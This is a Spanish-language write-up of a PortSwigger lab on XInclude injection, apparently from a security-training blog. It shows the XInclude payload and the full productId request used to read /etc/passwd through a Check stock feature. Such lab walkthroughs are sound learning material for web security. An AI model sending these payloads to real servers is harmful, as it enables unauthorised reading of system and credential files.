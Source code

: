```yaml
---
title: XXE Injection Lab 7
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Exploiting XInclude to retrieve files
image:
  path: /assets/img/XXE-Injection-Lab-7/Portswigger.png
---
```


## Skills

- Exploiting XInclude to retrieve files

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene una `función` de `Check stock` que `inserta` la `entrada` del `usuario` dentro de un `documento XML` en el `servidor`, el cual se procesa posteriormente. Dado que podemos controlar todo el `documento XML`, no podemos `definir` un `DTD` para lanzar un ataque `XXE` clásico. Para `resolver` el `laboratorio`, `inyecta` una `declaración XInclude` para `obtener` el `contenido` del archivo `/etc/passwd`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-7/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-7/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se están tramitando dos campos

![](/assets/img/XXE-Injection-Lab-7/image_3.png)

Como no tenemos el control sobre el `documento XML` completo, no podemos `cargar` un `DTD`, sin embargo, podemos usar la función `XInclude` para `cargar contenido`

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

`Enviamos` este `payload`, este importante `probar todos los campos` para saber cual es el `vulnerable`

```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

`Obtenemos` la `respuesta` del `servidor`, la cual nos `muestra` el `/etc/passwd`

![](/assets/img/XXE-Injection-Lab-7/image_4.png)

